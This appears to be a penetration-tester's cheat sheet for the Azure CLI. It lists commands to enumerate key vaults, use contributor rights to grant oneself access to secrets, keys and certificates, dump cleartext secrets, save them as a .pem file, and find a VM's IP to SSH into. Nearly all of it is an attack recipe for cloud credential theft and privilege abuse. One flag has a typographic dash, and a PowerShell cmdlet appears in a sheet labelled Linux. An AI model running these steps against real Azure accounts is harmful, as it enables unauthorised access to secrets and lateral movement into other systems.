 # Az Linux CLI Tool

### 1) Authentication

    az login

### 2) Dump Azure Key Vaults

#### List out any key vault resources the current account can view

    az keyvault list –query '[].name' --output tsv

#### With contributor level access you can give yourself the right permissions to obtain secrets.

    az keyvault set-policy --name KEY_VAULT_NAME --upn YOUR_CONTRIBUTOR_USERNAME --secretpermissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list

#### Get URI for Key Vault

    az keyvault secret list --vault-name KEY_VAULT_NAME --query '[].id' --output tsv

#### Get cleartext secret from keyvault

    az keyvault secret show --id URI_FROM_LAST_COMMAND | ConvertFrom-Json

#### Download the secret from keyvault in a .pem file for better formatting

    az keyvault secret download --id URI_ID --file KEY.pem

#### Get Public IP of a VM instance we want to SSH in

    az vm show -d -g RESOURCE_GROUP -n VM_NAME --query publicIps -o tsv
